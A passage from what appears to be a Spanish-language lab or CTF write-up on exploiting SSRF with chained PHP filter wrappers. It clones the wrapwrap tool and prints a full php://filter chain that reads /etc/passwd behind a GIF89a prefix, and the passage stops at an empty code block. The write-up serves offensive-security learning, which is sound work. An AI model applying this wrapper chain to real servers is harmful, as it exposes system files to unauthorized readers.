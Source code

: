 Esto parece seguir siendo inseguro, porque aún no se está validando el contenido del archivo, solamente se valida si se está usando el wrapper `phar://`


## Server Side Request Forgery + Wrappers Chain

En este contexto abusaremos del parámetro `url` para hacer una solicitud a recursos internos, como archivos u otros endpoints, primeramente intentaremos leer el archivo `/etc/passwd`-

Es por esta limitación que debemos utilizar métodos más avanzados para poder leer archivos sin que se nos aplique esta restricción. 

> En este caso usaremos una herramienta que nos permita crear una cadena de `wrappers` (`php://filter/`) con el fin de ofuscar el contenido del archivo para que sea procesado como una imagen. La herramienta la podemos encontrar en el siguiente repositorio
{: .notice--danger}

- https://github.com/ambionics/wrapwrap

~~~ bash
git clone https://github.com/ambionics/wrapwrap
cd wrapwrap
~~~

Crearemos la cadena enviando datos como el archivo objetivo, el prefijo y la cantidad de bytes a procesar

~~~ bash
python3 wrapwrap.py '/etc/passwd' 'GIF89a' '' 100000
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).

cat chain.txt          
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
~~~

Utilizaremos esta cadena de filtros para evitar restricciones del servidor y ofuscar el contenido del archivo que queremos cargar

~~~ bash
~~~